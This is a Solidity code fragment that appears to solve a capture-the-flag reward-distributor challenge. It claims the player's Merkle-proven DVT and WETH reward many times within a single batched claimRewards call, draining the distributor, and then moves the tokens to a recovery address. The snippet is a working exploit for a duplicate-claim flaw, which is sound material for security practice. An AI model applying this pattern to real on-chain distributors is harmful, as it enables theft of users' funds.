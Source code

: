 ```solidity

    // Verify we found the player's index
    require(playerIndex != 0, "Player address not found in distribution");

    // Get the amounts the player can claim
    uint256 playerDVTAmount = dvtRewards[playerIndex].amount;
    uint256 playerWETHAmount = wethRewards[playerIndex].amount;

    // Calculate how many claims we can make
    uint256 dvtTxCount = TOTAL_DVT_DISTRIBUTION_AMOUNT / playerDVTAmount;
    uint256 wethTxCount = TOTAL_WETH_DISTRIBUTION_AMOUNT / playerWETHAmount;
    uint256 totalTxCount = dvtTxCount + wethTxCount;

    // Prepare the tokens array
    IERC20[] memory tokens = new IERC20[](2);
    tokens[0] = IERC20(address(dvt));
    tokens[1] = IERC20(address(weth));

    // Generate Merkle proofs for the player (only once)
    bytes32[] memory dvtProof = merkle.getProof(dvtLeaves, playerIndex);
    bytes32[] memory wethProof = merkle.getProof(wethLeaves, playerIndex);

    // Build all claims
    Claim[] memory claims = new Claim[](totalTxCount);

    for (uint256 i = 0; i < totalTxCount; i++) {
        if (i < dvtTxCount) {
            claims[i] = Claim({
                batchNumber: 0,
                amount: playerDVTAmount,
                tokenIndex: 0, // DVT
                proof: dvtProof
            });
        } else {
            claims[i] = Claim({
                batchNumber: 0,
                amount: playerWETHAmount,
                tokenIndex: 1, // WETH
                proof: wethProof
            });
        }
    }

    // Execute all claims in a single transaction
    distributor.claimRewards(claims, tokens);

    // Transfer all recovered tokens
    dvt.transfer(recovery, dvt.balanceOf(player));
    weth.transfer(recovery, weth.balanceOf(player));
}
```
